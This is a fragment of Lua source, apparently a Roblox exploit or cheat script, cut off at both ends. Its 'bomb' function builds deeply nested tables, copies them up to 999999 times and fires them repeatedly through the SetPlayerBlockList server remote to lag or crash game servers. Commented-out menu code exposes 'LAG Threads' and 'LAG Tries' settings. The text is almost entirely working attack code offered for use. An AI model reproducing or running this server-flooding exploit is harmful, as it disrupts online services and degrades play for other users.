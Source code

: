     --local function bomb(tableincrease, tries)
function bomb(tableincrease, tries)
    local maintable = {}
    local spammedtable = {}
    
    table.insert(spammedtable, {})
    z = spammedtable[1]

    tableincrease = tonumber(Settings.max or 22)
    for i = 1, tableincrease do
        local tableins = {}
        table.insert(z, tableins)
        z = tableins
    end
     
    local calculatemax = getmaxvalue(tableincrease)
    local maximum
     
    if calculatemax then
         maximum = calculatemax
         else
         maximum = 999999
    end
     
    for i = 1, maximum do
         table.insert(maintable, spammedtable)
    end
     
    --tries = tonumber(Settings.mix or 1.5)
    for i = 1, tries do
         game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
    end
end
    
    tableincrease = tonumber(Settings.max or 22)
    --tries = tonumber(Settings.mix or 1.5)

    if Settings.EnableLag then
        bomb(tableincrease, tonumber(Settings.mix))
    elseif not Settings.EnableLag then
        bomb(tableincrease, 0)
    end
    --bomb(tableincrease, tries)
    --repeat task.wait() until not Settings.EnableLag
            end
        end
    end
end)

    --[[LG1:Cheat("Textbox", "LAG Threads", function(Value)
        print("LAG threads.:", Value)
        Settings.max = tonumber(Value)
        saveSettings()
    end, {placeholder = Settings.max or 22})

    LG1:Cheat("Textbox", "LAG Tries ", function(Value)
        print("LAG tries.:", Value)
        Settings.mix = tonumber(Value)
        saveSettings()
    end, {placeholder = Settings.mix or 0})
